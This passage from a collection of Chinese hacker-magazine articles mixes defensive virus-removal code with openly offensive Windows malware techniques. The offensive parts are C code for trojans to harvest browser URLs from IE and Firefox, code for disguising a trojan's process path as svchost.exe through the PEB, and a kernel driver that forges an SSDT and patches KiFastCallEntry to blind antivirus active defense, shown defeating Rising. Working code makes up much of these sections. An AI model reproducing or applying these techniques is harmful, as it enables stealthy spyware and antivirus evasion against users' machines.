    AdjustTokenPrivileges(hProcessToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

    if (GetLastError() != ERROR_SUCCESS)
        return FALSE;
    if (hProcessToken != NULL)
        CloseHandle(hProcessToken);
    return TRUE;
}
```

提升完权限之后，打开所有运行进程，查看里面是否有我们要找的 DLL 模块，如果存在，就要获得 DLL 句柄，然后用 `FreeLibrary` 将其卸载。但是在 Windows 系统中，各个进程是相互独立的，拥有独立的进程空间，彼此不能访问对方内存空间里的数据。因此在给远程进程创建线程时，无法将参数传递过去，只能将 DLL 名写入到进程可以访问的空间，然后调用 `FreeLibrary` 将其卸载。

此处代码参考了《黑客防线 2009 黑客编程 VC 专辑》中的一篇文章，在此表示感谢。

```c
// 函数功能：卸载注入的 DLL，参数：DLL 名
int KillDLL(char *DllName)
{
    // 解除所有进程中某 DLL 模块的加载
    HANDLE hProcess = NULL;
    if (!SetPrivilege(SE_DEBUG_NAME, TRUE))
    {
        return -2;
    }

    DWORD aProcesses[1024], cbNeeded, cProcesses;
    unsigned int i;

    // 计算目前有多少进程，aProcesses[] 用来存放有效的进程 PIDs
    if (!EnumProcesses(aProcesses, sizeof(aProcesses), &cbNeeded))
        return -11;

    cProcesses = cbNeeded / sizeof(DWORD);

    // 遍历所有的进程 PID
    for (i = 0; i < cProcesses; i++)
    {
        if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, aProcesses[i])) == NULL)
        {
            continue;
        }

        // 向目标进程地址空间写入 DLL 名称
        DWORD dwSize, dwWritten;
        dwSize = strlen(DllName) + 1;
        LPVOID lpBuf = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
        if (lpBuf == NULL)
        {
            CloseHandle(hProcess);
            continue;
        }

        // 向其中写入 DLL 的名称
        if (WriteProcessMemory(hProcess, lpBuf, (LPVOID)DllName, dwSize, &dwWritten))
        {
            // 若写入字节数与实际写入字节数不相等，仍失败
            if (dwWritten != dwSize)
            {
                VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
                CloseHandle(hProcess);
                continue;
            }
        }
        else
        {
            CloseHandle(hProcess);
            continue;
        }

        // 使目标进程调用 GetModuleHandle，获得 DLL 在进程中的句柄
        DWORD dwHandle, dwID;
        LPVOID pFunc = GetModuleHandleA;
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pFunc, lpBuf, 0, &dwID);
        WaitForSingleObject(hThread, INFINITE);
        GetExitCodeThread(hThread, &dwHandle);

        // 释放目标进程中申请的空间
        VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
        CloseHandle(hThread);

        // 使目标进程调用 FreeLibrary，卸载 DLL
        pFunc = FreeLibrary;
        hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pFunc, (LPVOID)dwHandle, 0, &dwID);

        // 等待 FreeLibrary 卸载完毕
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
        CloseHandle(hProcess);
    }

    if (hProcess != NULL)
        CloseHandle(hProcess);
    return 0;
}
```

## 注册表相关部分

### 1. 对抗自启动

系统中的注册表成了兵家必争之地，病毒通常通过修改注册表来达到自启动的目的。

攻略：删除掉相关的注册表项。

代码如下：

```c
VOID DeleteRunonceRegistry()
{
    HKEY hTestKey;
    CHAR szBuf[128];
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run",
        0, KEY_READ | KEY_WRITE, &hTestKey) == ERROR_SUCCESS)
    {
        if (RegDeleteValue(hTestKey, "Runonce") != ERROR_SUCCESS)
        {
            sprintf(szBuf, "%d", GetLastError());
            MessageBox(NULL, szBuf, NULL, MB_OK);
        }
    }
}
```

这里只是给出一个自启动的例子，病毒自启动的方法相当多，只要将上面的注册表项改成病毒利用的注册表项，就能解决问题。

### 2. 对抗映像劫持

可能有朋友遇到过这样的情况：一个正常的程序，无论把它放在哪个位置，或者重新用安装盘修复过，都出现无法运行的情况；或是出错提示为“找不到文件”；或者直接没有运行；或者比如运行程序 A 却成了执行 B（可能是病毒），而改名后却可以正常运行。这就是映像劫持。病毒经常劫持注册表编辑器、任务管理器以及服务管理器等用户常用的程序，来使病毒运行。

攻略：删除 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\` 下的相关注册表项。

代码如下：

```c
VOID DeleteRunonceRegistry() // 这里以任务管理器为例
{
    HKEY hTestKey;
    CHAR szBuf[128];
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\taskmgr",
        0, KEY_READ | KEY_WRITE, &hTestKey) == ERROR_SUCCESS)
    {
        ...
    }
}
```

```c
if (RegDeleteValue(hTestKey, "Debugger") != ERROR_SUCCESS)
{
    sprintf(szBuf, "%d", GetLastError());
    MessageBox(NULL, szBuf, NULL, MB_OK);
}
```

### 3. 对抗文件隐藏

有时已经将文件夹选项下的“显示所有文件和文件夹”复选框勾选上，同时去掉勾选“隐藏受保护的系统文件”复选框，但还是看不到文件，这是什么原因呢？原来是注册表中的一个注册表项在作怪。

攻略：将 `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\ShowSuperHidden` 的值改为 1。

由于上面都是采用编程的方法来实现，现在换种更简单的方法来处理注册表的相关操作，采用批处理。

代码如下：创建一个 `.bat` 文件，然后在里面添加要处理的注册表项，相关的格式可以参考黑客防线官网上的资料。为了减少篇幅，不再叙述。

```bat
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v ShowSuperHidden /t reg_dword /d 00000001 /f
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskmgr.exe" /v Debugger /f
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer\Run" /v sys /f
```

上面的批处理是将注册表项 ShowSuperHidden 的值改为 1，删除任务管理器的映像劫持，删除 sys 项的自启动。

我们将它命名为 `kill.bat`，将它和主程序放在同一个文件夹下，然后在主程序里调用执行，代码如下：

```c
GetModuleFileName(NULL, szPath, MAX_PATH); // 获取程序的路径
lstrcpy(_tcsrchr(szPath, '\\') + 1, _T("kill.bat")); // 然后去掉程序名加上 kill.bat
strcpy(szCmdLine, "cmd.exe /c start "); // WinExec 的命令行
strcat(szCmdLine, szPath);
WinExec(szCmdLine, SW_SHOWNORMAL);
```

这样就很轻松地调用批处理，批处理写起来比 C 语言方便多了，只要一句就能实现 C 的四五句。

## 文件相关部分

- 1. 对抗顽固文件

病毒会在运行时释放一些病毒文件，有的是病毒自身的复制，有的是 DLL。为了使病毒能够更久地存活，病毒一般会对文件进行保护，以防止用户将其删除掉。

攻略：采用 Ring3 下最强悍的 ZwDeleteFile 来删除病毒文件，代码如下：

```c
HINSTANCE hNtDll;
ZWDELETEFILE ZwDeleteFile;
RTLINITUNICODESTRING RtlInitUnicodeString;
ZWCREATEFILE ZwCreateFile;
ZWWRITEFILE ZwWriteFile;
ZWCLOSE ZwClose;

hNtDll = LoadLibrary("NTDLL");
if (!hNtDll) return 0;

ZwDeleteFile = (ZWDELETEFILE)GetProcAddress(hNtDll, "ZwDeleteFile");
RtlInitUnicodeString = (RTLINITUNICODESTRING)GetProcAddress(hNtDll, "RtlInitUnicodeString");
ZwCreateFile = (ZWCREATEFILE)GetProcAddress(hNtDll, "ZwCreateFile");
ZwWriteFile = (ZWWRITEFILE)GetProcAddress(hNtDll, "ZwWriteFile");
ZwClose = (ZWCLOSE)GetProcAddress(hNtDll, "ZwClose");

UNICODE_STRING ObjectName;
RtlInitUnicodeString(&ObjectName, L"\\??\\E:\\autorun.inf");

OBJECT_ATTRIBUTES ObjectAttributes = {
    sizeof(OBJECT_ATTRIBUTES),
    NULL,
    &ObjectName,
    OBJ_CASE_INSENSITIVE,
    0,
    NULL
};

HANDLE hFile;
PVOID content = "ForZwFileTest";
IO_STATUS_BLOCK ioStatusBlock;

ZwCreateFile(&hFile,
    GENERIC_WRITE | SYNCHRONIZE | GENERIC_READ,
    &ObjectAttributes,
    &ioStatusBlock,
    0,
    FILE_ATTRIBUTE_NORMAL,
    FILE_SHARE_DELETE,
    FILE_OPEN_IF,
    FILE_SYNCHRONOUS_IO_NONALERT,
    NULL,
    0);

ZwWriteFile(hFile, 0, 0, 0, &ioStatusBlock, content, 12, NULL, NULL);
ZwClose(hFile);
ZwDeleteFile(&ObjectAttributes);
FreeLibrary(hNtDll);
```

## 总结

这里只是在 Ring3 层来阐述对抗病毒的攻略，但是现在的病毒也开始进入 Ring0 层，利用底层技术来搞破坏，因此仅仅在 Ring3 层讨论对抗病毒还是不够的，下次希望能够在 Ring0 层讲一下对抗病毒的攻略。

> （编辑提醒：本文涉及的代码可以在黑防官方网站下载）

前置知识：VC  
关键字：火狐、IE、URL

# VC 获取火狐、IE 的 URL 等信息


文/图 GF

一个木马如果要做信息收集，拥有用户网页访问记录的功能显得尤为必要。时下浏览器市场最火的两个厂商应属微软的 IE 和火狐浏览器。今天和大家一起研究针对这两款浏览器的监视思路及实现代码。

## 不可靠的“通用思路”

世事很难两全其美，这个思路理论上通杀所有你想要截取的窗口内容，但是又会带来诸多不稳定的因素。  
思路如下：通过循环调用 FindWindow 监视是否存在被监视窗口，如果存在就利用 FindWindowEx 再找其子窗口，以此递归，直到找到我们需求的窗口。

对于“窗口（window）”这个概念，从编程的角度理解便不再仅仅是可以“最大化、还原、最小化、关闭”的一团图形。Windows 下即使是一个按钮我们也称之为窗口，所以合理的定义或许应该是这样：窗口，即监视器上一块矩形区域。

既然是窗口，那么便有标示其身份的句柄。众所周知，有了句柄好办事，一般情况下，我们拿到这个句柄后，类似获取其 text 的操作便会轻而易举了。

回过头来看 FindWindow 函数，它需要两个参数，分别是窗口的类名和窗口标题，这里我们只需要提交一个便可以了。因为我们不可能预先知道用户会访问什么网页，更不可能知道窗口的标题。所以我们只能选择窗口的类名，而这个一般是不会变化的（都是微软出品的嘛）。

关于类名的查看工具，流行工具为微软提供的 Spy++。那么我们查看 IE 窗口，效果如图 1 所示。

画框的部分即是主窗口的类名。  
找到主窗口后，我们需要利用 FindWindowEx 来递归寻找它的子窗口，直到找到地址栏窗口。这里我们需要向 FindWindowEx 提供两个参数：父窗口的句柄和待找寻窗口的类名。在 Spy++ 里继续展开子项，很容易找到地址栏窗口的类名以及其父窗口的类名。

当我们最终找到地址栏窗口的句柄后，向它发送消息：我要你的 text。那么它便会乖乖把数据发送给我们了（事实上是 OS 把数据发送给了我们）。  
整体代码如下：

```cpp
HWND hwnd = NULL;
while (hwnd == NULL)
    hwnd = FindWindow(_T("IEFrame"), NULL);
char text[MAX_PATH];
if (hwnd)
{
    HWND hwnd2 = FindWindowEx(hwnd, NULL, _T("WorkerW"), NULL);
    HWND hwnd3 = FindWindowEx(hwnd2, NULL, _T("ReBarWindow32"), NULL);
    HWND hwnd4 = FindWindowEx(hwnd3, NULL, _T("ComboBoxEx32"), NULL);
    HWND hwnd5 = FindWindowEx(hwnd4, NULL, _T("ComboBox"), NULL);
    HWND hwnd6 = FindWindowEx(hwnd5, NULL, _T("Edit"), NULL);

    SendMessageA(hwnd6, WM_GETTEXT, MAX_PATH, (LPARAM)text);
    MessageBoxA(0, text, 0, 0);
}
```

效果如图 2 所示。


图 1


图 2

这样做有两个好处：一是貌似通杀，二是代码简单。

缺点也是显而易见的：不稳定概率很大。原因一是依赖了处于动态中的类名，其随时可能随着软件升级而变化。二是一些浏览器压根就不让你获取到类名，例如地址栏是画上去的。

## 通过正规渠道获取 IE 核心类浏览器

所谓正规渠道，指利用微软通过 COM 提供的接口，我们可以完全放心地写代码来获取 URL。稳定性（通用性）有了微软的保证。

在 IE 核心这个狭义层面上，该种方式也是通用的。并且更令人惊喜的是，该方式不只针对 IE 浏览器，资源管理器的窗口也能截取。

代码如下：

```cpp
void getwindow()
{
    // 所有打开的 ShellWindows 信息，包括 Explorer 和 IE
    CoInitialize(NULL);
    IShellWindows* m_spSHWinds;
    CoCreateInstance(CLSID_ShellWindows, NULL, IID_IShellWindows, (LPVOID*)&m_spSHWinds);
    long nCount;
    m_spSHWinds->get_Count(&nCount);
    for (long i = 1; i < nCount; i++) {
        VARIANT va;
        va.vt = 3;
        va.lVal = i;
        IDispatch* spDisp;
        m_spSHWinds->Item(va, &spDisp);
        if (!spDisp) continue;
        IWebBrowser2* spBrowser;
        spDisp->QueryInterface(IID_IWebBrowser2, (void**)&spBrowser);
        BSTR url;
        spBrowser->get_LocationURL(&url); // 获取网址
        wprintf(L"%s\n", url);
    }
}
```

虽然代码复杂了一些，涉及的技术点也多了一些。不过实践证明稳定性、通用性都很好。

## 通过正规渠道获取火狐浏览器

好在火狐给我们提供了 COM 接口，让我们可以访问用户当前网页的 URL。我们只需要使用它给定的 API 便可以达到自己的目的。

需要额外提醒的是，火狐是以提供接口定义语言文件 IDL 来让我们在编程中使用接口的，一共三个，用 MIDL 命令分别将三个文件路径编译，生成 `.h` 和 `.c` 文件，然后调用 API 即可。

```cpp
ISimpleDOMDocument* GetGeckoDocInterface(HWND hWnd)
{
    IAccessible* spAccessible = NULL;
    IServiceProvider* pServiceProvider = NULL;
    ISimpleDOMNode* spDOMNode = NULL;
}
```

```cpp
static ISimpleDOMDocument* spDoc = NULL;
HRESULT hResult;
if (S_OK == AccessibleObjectFromWindow(hWnd, OBJID_CLIENT, IID_IAccessible, (void**)&spAccessible)) {
    hResult = spAccessible->QueryInterface(IID_IServiceProvider, (void**)&pServiceProvider);
    if (SUCCEEDED(hResult)) {
        hResult = pServiceProvider->QueryInterface(IID_ISimpleDOMNode, (void**)&spDOMNode);
        if (SUCCEEDED(hResult)) {
            hResult = spDoc->QueryInterface(IID_ISimpleDOMDocument, (void**)&spDoc);
            if (SUCCEEDED(hResult)) return spDoc;
        }
    }
}
return NULL;

BOOL CALLBACK EnumChildProc(HWND hWnd, LPARAM lParam)
{
    USES_CONVERSION;
    wchar_t buf[100];
    GetClassName(hWnd, (LPWSTR)&buf, 200);
    BSTR title, url;
    if (!wcscmp(buf, L"MozillaContentWindowClass")) {
        ISimpleDOMDocument* spDoc = GetGeckoDocInterface(hWnd);
        if (spDoc) {
            spDoc->get_URL(&url); // 获取网址
            wprintf(L"%s\n", url);
        }
        return true;
    }
    return false;
}

BOOL CALLBACK EnumFireFoxWindowsProc(HWND hwnd, LPARAM lParam)
{
    wchar_t buf[100];
    GetClassName(hwnd, (LPWSTR)&buf, 200); // 获得窗体类型
    if (!wcscmp(buf, L"MozillaUIWindowClass"))
        EnumChildWindows(hwnd, EnumChildProc, NULL); // 再枚举子窗口
    return true;
}

void getfirefox()
{
    CoInitialize(NULL); // 初始化
    EnumWindows(EnumFireFoxWindowsProc, 0);
}
```

看起来似乎代码更为复杂，不过值得我们高兴的是，截止程序编写完成，测试通过了所有火狐浏览器版本。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键字：进程路径、EPROCESS

# 简单方法伪装进程路径

文/图 Naylon


前两天不小心运行了个木马，于是进程里多出了个“svchost.exe”，路径是“C:\WINDOWS\svchost.exe”，很明显是假的，一眼便看出来了，结束进程，删除文件，搞定。

事后我就想，现在主动防御这么严格，不用驱动想要废掉杀毒软件比较困难，那么木马岂不是无处逢生了？未必，既然不能对抗杀毒软件，那么我们可以对自己进行伪装，欺骗用户，把自己变成合法公民。

前面所讲的那个例子只是最低级的，稍微有点经验的用户一眼就能看出来。那么，怎么样能以假乱真呢？我们知道，修改 EPROCESS 结构可以实现进程保护、进程隐藏，这也就是传说中的 DKOM，但是想修改内核数据就必须要驱动（其他特殊方法现在基本都已经无效）。其实不必修改内核数据，每个进程还有一个 PEB 结构，保存在进程的地址空间里，这里面也有很多地方可以做手脚，而且这个结构在每个系统下都是一样的，所以不存在兼容问题。先来看一下这个结构的主要成员（省略了大部分没用的成员）。

```c
typedef struct _PEB // 65 elements, 0x210 bytes (sizeof)
{
/*0x000*/ UINT8 InheritedAddressSpace;
/*0x001*/ UINT8 ReadImageFileExecOptions;
/*0x002*/ UINT8 BeingDebugged;
/*0x003*/ UINT8 SpareBool;
/*0x004*/ VOID* Mutant;
/*0x008*/ VOID* ImageBaseAddress;
/*0x00C*/ struct _PEB_LDR_DATA* Ldr;
/*0x010*/ struct _RTL_USER_PROCESS_PARAMETERS* ProcessParameters;
...
} PEB, *PPEB;
```

可以看出，PEB+0x10 位置是一个 32 位指针，指向一个 `_RTL_USER_PROCESS_PARAMETERS` 结构，下面再来看这个结构（省略了大部分没用的成员）。

```c
typedef struct _RTL_USER_PROCESS_PARAMETERS
// 28 elements, 0x290 bytes (sizeof)
{
/*0x000*/ ULONG32 MaximumLength;
/*0x004*/ ULONG32 Length;
/*0x008*/ ULONG32 Flags;
...
/*0x038*/ struct _UNICODE_STRING ImagePathName;
// 3 elements, 0x8 bytes (sizeof)
}
```

```c
/*0x040*/ struct _UNICODE_STRING CommandLine;
// 3 elements, 0x8 bytes (sizeof)
/*0x048*/ VOID* Environment;
...
/*0x090*/ struct _RTL_DRIVE_LETTER_CURDIR CurrentDirectories[32];
} RTL_USER_PROCESS_PARAMETERS,
*PRTL_USER_PROCESS_PARAMETERS;
```

显然，`_RTL_USER_PROCESS_PARAMETERS + 0x38` 处是一个 `_UNICODE_STRING` 结构，`_UNICODE_STRING->Buffer` 保存着进程可执行文件路径的指针，如果把这个路径替换成“C:\WINDOWS\system32\svchost.exe”呢？那么岂不是伪装了进程路径？下面我们就写代码来尝试一下。

```c
/* 函数：FxReplaceProcessPath
   功能：伪装进程路径
   参数：1-目标进程句柄
         2-假路径的字符串（UNICODE）
   返回值：TRUE-成功 / FALSE-失败 */
BOOL FxReplaceProcessPath(HANDLE hProcess, TCHAR *szNewPath)
{
    HMODULE hModule = GetModuleHandle(TEXT("NTDLL.DLL"));
    if (hModule == NULL) return FALSE;

    PZWQUERYINFORMATIONPROCESS pZwQueryInformationProcess =
      (PZWQUERYINFORMATIONPROCESS)GetProcAddress(hModule, "ZwQueryInformationProcess");

    PROCESS_BASIC_INFORMATION pbi = {NULL};
    if (pZwQueryInformationProcess(hProcess, 0, (LPVOID)&pbi, sizeof(pbi), NULL) < 0)
        return FALSE;

    ULONG lpRUPP = NULL;
    ReadProcessMemory(hProcess, (LPVOID)(pbi.PebBaseAddress + 0x10), &lpRUPP, 4, NULL);

    ULONG lpOldPath = NULL;
    ReadProcessMemory(hProcess, (LPVOID)(lpRUPP + 0x3C), &lpOldPath, 4, NULL);
    WriteProcessMemory(hProcess, (LPVOID)lpOldPath, szNewPath, MAX_PATH, NULL);
}
```

```cpp
// 修改命令行为空
ULONG lpOldCommand = NULL;
ReadProcessMemory(hProcess, (LPVOID)(lpRUPP + 0x44),
                  &lpOldCommand, 4, NULL);
WriteProcessMemory(hProcess, (LPVOID)lpOldCommand,
                   TEXT(""), MAX_PATH, NULL);

return TRUE;
}
```

在 main 里执行一下 `FxRep.aceProcessPath(GetCurrentProcess(), TEXT("C:\\WINDOWS\\system32\\svchost.exe"));`，打开任务管理器，可以看到，进程的路径变成了 `C:\WINDOWS\system32\svchost.exe`。


写木马时，我们只要把进程名改为“svchosi.exe”，放到任意路径下，执行上述代码，即可达到隐藏效果。而且这个方法很稳定，因为是对自身的操作，所以一般不会被杀毒软件拦截。

> （编辑提醒：本文涉及的代码可以到黑客官方网站下载）

前置知识：驱动、汇编  
关键字：SSDT、主动防御

# 构造自己的“SSDT”绕过主动防御


文/图 liuke_blue

SSDT 想必大家都已经很熟悉，它就是 Windows 系统服务描述符表，这是将 Ring3 下的系统 API 函数和 Ring0 系统 API 函数相互联系起来的一条重要通道。不管是杀毒软件的主动防御还是病毒木马所用到的 Rootkit 技术都对 SSDT 进行争夺来达到相应目的。病毒木马常见的方法是直接在内核层恢复 SSDT 来绕过或者结束安全软件的主动防御。但是这种方法我们可以通过一些 Anti-Rootkit 工具来发现，有没有一种方法既不恢复 SSDT，同时又让安全软件的主动防御成为“睁眼瞎”呢？答案是有的，下面我就给大家介绍说明。绕过 SSDT 有两种方法：

- 我们知道在 Ring3 调用 ntdll.dll 的 Zw 系列函数最终会转到 Ring0 与之对应的 Zw 系列函数，下面是对 ntdll.dll!ZwWriteFile 的反汇编。
- 这种方法与上面介绍的差不多，只是更简单一些：在内核空间伪造一张 SSDT 表，然后想办法让系统流程改变而跳到伪造 SSDT 中，从而绕过原来被 Hook 过的 SSDT。


EAX 传入的参数是服务序号，`Call ds:[0x7FFE0300]` 实际是调用 ntdll!KiFastSystemCall，通过调用 `sysenter` 从 Ring3 进入 Ring0。这里如果是 Windows 2000 的系统则采取 `int 2E` 指令来进入 Ring0。这里我们可以假设从 SSDT 的序号 2000 位置进行扩展 SSDT.Count（函数总个数）表项，当现有 SSDT 表中系统服务最大序号不会超过 2000 时，我们通过重定位表获取原始 SSDT 表，从 0 开始的位置将所有地址复制到扩展后 SSDT 表 2000 序号开始的位置。现在如果将 [EAX]+2000，这样等于选取我们在 SSDT 表中 2000 对应的序号，也就是保存原始系统函数调用地址，这样就绕过原来被 Hook 过的 SSDT。

我认为要绕过原有的 SSDT，只需要解决两个技术难点。第一是获取原始 SSDT 表：可通过文件偏移获取内存中的 KeServiceDescriptorTable 位置；本文采用基于 PE 重定位表原理，在 KiInitSystem 初始化代码中获取 KiServiceTable 的 RVA。下图是对 ntoskrnl.exe 反汇编 KiInitSystem 的结果，在代码段可得到 KiServiceTable 的 RVA。


第二个技术难点是如何使系统流程跳转到我们构造好的 SSDT。在 Ring0 级调用流程中：Zw 系列函数 -> KiSystemService 函数（中断向量 2E 的处理函数），CPU 执行 `int 2E` 后会进入 Ring0 的该函数，再转去调用 KiFastCallEntry 函数。部分流程在 ReactOS 原型如下：

```c
KiSystemService
/* Enter the shared system call prolog */
```

```asm
SYSCALL_PROLOG ...
...
call ebx

（左栏整块为大段内核/汇编相关代码与注释）
```

上面的代码黑防的读者如果有兴趣深挖的话，可以去查阅《Windows 内核情景分析》一书。从上面给出的分析，我们可以知道要想改变流程，可使系统流程跳转到我所构造的“SSDT”。

可以被 Hook 的位置就是图 3 中被我重点标出来的地方。


图 3

如果你用本文的方法绕过 SSDT，你应该将：`mov edi, dword ptr [edi]` 中 edi 所指向的位置改为你所伪造的 SSDT 位置；如果你要采取前面所提到通过扩展 SSDT 表的方法绕过 SSDT，你可以将：`mov ebx, dword ptr [edi+eax*4]` 改为 `[edi+(eax+2000)*4]`，偏移到你所扩展的保存着原来 SSDT 地址的位置。自己写的 KiFastCallEntry 函数核心代码如下：

```asm
asm {
  pushad
  pushfd
  mov eax, newSSDT
  cmp eax, [edi]
  jnz shadow
  popfd
  popad
  mov cl, byte ptr [eax+ebx]
  mov edi, oldSSDT
  jmp [lpRet]
shadow:
  popfd
  popad
  mov cl, byte ptr [eax+ebx]
  mov edi, dword ptr [edi]
  jmp [lpRet]
}
```

说明一下上面的代码，值得注意的是你只是绕过 SSDT，所以前面判断一下该函数到底调用的是 shadow SSDT 还是 SSDT，如果是 SSDT 则用伪造的 new SSDT 地址去替换 edi，否则不改变系统流程顺序。其他的代码我就不多说了，大家可以去看我提供的源代码。我一直觉得理解原理很重要，只有理解了原理才是真正的明白。下面以最新的瑞星杀毒软件 2010 版本做测试，自己编写的 reg.exe（一个注册表启动项添加的测试程序，无其他功能，随文提供该汇编源代码和编译好的 bin）被瑞星的主动防御发现并拦截，如图 4 所示。


图 4

驱动编译测试环境：Windows XP SP3 + WDK7600。安装好驱动，用 WinDbg 反汇编 KiFastCallEntry 函数，发现已经 patch 好，如图 5 所示。


图 5

驱动绕过 SSDT 表后，再次运行 reg.exe，瑞星杀毒软件没有任何主动拦截的动作提示，注册表启动项新建 Start 项成功。之前瑞星杀毒软件对修改注册表操作全都拦截并保存进日志，但是现在已经失效。效果如图 6 所示，你还可以直接在任务管理器中结束瑞星进程 Rstray.exe，有兴趣的话你还可以对瑞星主动防御做其他测试。

这篇文章到这里本应该结束，但是研究的问题却远远没有结束。如果你的机器安装了 360 安全卫士，你会发现 360 安全卫士就在我们对 KiFastCallEntry 函数 patch 后的几个字节也做了 Hook，这也是我们用 Anti-Rootkit 工具看不到 360 安全卫士对 SSDT 做的 Hook 的原因，因为它将过滤规则嵌进了 KiFastCallEntry 函数的内联钩子，而且开启一个循环线程对其 Hook 的位置进行监控，如果用 Anti-Rootkit 工具恢复挂钩的位置，它马上就会改过来。不仅 360 安全卫士，金山 2010 杀毒软件也是如此。该驱动的不足之处是如果在安装 360 的机器上，也安装我所编写的驱动，运行不久后就会蓝屏，我猜想大概是与 360 挂钩的位置有冲突。有兴趣的读者可以继续研究 360 关于 KiFastCallEntry 函数的 inline Hook，我就不多说了，毕竟人家是成熟的商业软件！


图 6

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键字：Hook、ObCreateObject、进程创建

# Hook ObCreateObject

## 实时监控进程创建

文/周腾袭


## 引言

目前比较通用的拦截进程的方法有许多种，像 SSDT Hook、NtCreateProcessEx、inline Hook、ObReferenceObjectByHandle 等方法都可以实现拒绝进程的创建，不过现在网上流传的方法与 Ring3 都不具有很好的互交性，一般都是被动的全部拒绝。现在，笔者就来谈谈一种以链表的形式储存信息来与 Ring3 互交的方式实现实时监控进程创建。鉴于像 Hook ObReferenceObjectByHandle 等方法已经在网上被广泛运用，这里笔者介绍另一种方法来实现拦截进程创建。

## 原理

我们首先来看看 Windows 进程创建的过程，这样有助于我们选择一个适合的函数来 Hook。首先是 CreateProcess，在非 Unicode 的环境下，CreateProcess 调用的是 CreateProcessA，实际上 CreateProcessA 只是把 ASCII 字符串转换成 Unicode 字符串，然后就调用 CreateProcessW。而在 Unicode 的环境下，CreateProcess 调用的直接就是 CreateProcessW。接下来，在 CreateProcessW 中经过一系列的处理后，我们可以发现它调用了 NtCreateProcess，代码如下：

```c
NTSTATUS STDCALL NtCreateProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
    IN HANDLE ParentProcess,
    IN BOOLEAN InheritObjectTable,
    IN HANDLE SectionHandle OPTIONAL,
    IN HANDLE DebugPort OPTIONAL,
    IN HANDLE ExceptionPort OPTIONAL
)
{
    KPROCESSOR_MODE PreviousMode;
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();
    PreviousMode = ExGetPreviousMode();
    if (PreviousMode != KernelMode)
    {
        __SEH_TRY
        ...
        __SEH_END;
    }

    if (ParentProcess == NULL)
    {
        Status = STATUS_INVALID_PARAMETER;
    }
    else
    {
        Status = PspCreateProcess(ProcessHandle, DesiredAccess,
            ObjectAttributes,
            ParentProcess,
            InheritObjectTable, SectionHandle,
            DebugPort, ExceptionPort);
    }
    return Status;
}
```

从 NtCreateProcess 的源码中我们可以发现它调用了 PspCreateProcess，不过由于这个函数是未导出函数，Hook 起来有点麻烦，所以我们接着往下看。

```c
NTSTATUS
PspCreateProcess(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
    IN HANDLE ParentProcess OPTIONAL, IN BOOLEAN InheritObjectTable,
    IN HANDLE SectionHandle OPTIONAL,
    IN HANDLE DebugPort OPTIONAL, IN HANDLE ExceptionPort OPTIONAL)
{
    PreviousMode = ExGetPreviousMode();

    if (ParentProcess != NULL)
    {
        Status = ObReferenceObjectByHandle(ParentProcess,
            PROCESS_CREATE_PROCESS, PsProcessType,
            PreviousMode,
            (PVOID*)&pParentProcess, NULL);
    }
    else
    {
        pParentProcess = NULL;
    }

    if (SectionHandle != NULL)
    {
        Status = ObReferenceObjectByHandle(SectionHandle,
            0,
            MmSectionObjectType, PreviousMode,
            (PVOID*)&SectionObject, NULL);
    }

    Status = ObCreateObject(PreviousMode, PsProcessType,
        ObjectAttributes,
        PreviousMode, NULL, sizeof(EPROCESS), 0, 0,
        (PVOID*)&Process);

    KProcess = &Process->Pcb;
    RtlZeroMemory(Process, sizeof(EPROCESS));
    Status = PsCreateCidHandle(Process, PsProcessType,
        &Process->UniqueProcessId);

    Process->DebugPort = pDebugPort;
    Process->ExceptionPort = pExceptionPort;

    KeInitializeDispatcherHeader(&KProcess->DispatcherHeader,
        ProcessObject, sizeof(EPROCESS), FALSE);
}
```

从 PspCreateProcess 的部分源码中我们可以看到它调用了 ObReferenceObjectByHandle、ObCreateObject、PsCreateCidHandle、KeInitializeDispatcherHeader 等一系列函数。这里通过比较，笔者选择了 Inline Hook ObCreateObject。即  
[CreateProcessW() > NtCreateProcess() > PspCreateProcess() > ObCreateObject()]。

## 实现

选择好了函数，我们就开始做准备 Hook 了，先看看 ObCreateObject 的原型吧，代码如下：

```c
NTSTATUS
ObCreateObject(
    in KPROCESSOR_MODE ProbeMode,           // 决定是否要验证参数
    in POBJECT_TYPE ObjectType,             // 对象类型指针
    in POBJECT_ATTRIBUTES ObjectAttributes, // 对象的属性，最终会转化成 ObAllocateObject 需要的
                                            // OBJECT_CREATE_INFORMATION 结构
    in KPROCESSOR_MODE OwnershipMode,
    inout opt PVOID ParseContext,
    in ULONG ObjectBodySize,                // 对象体大小
    in ULONG PagedPoolCharge,
    in ULONG NonPagedPoolCharge,
    out PVOID *Object                       // 接收对象体的指针
);
```

再看看 PspCreateProcess 调用 ObCreateObject 的方式，代码如下：

```c
Status = ObCreateObject(PreviousMode, PsProcessType,
    ObjectAttributes,
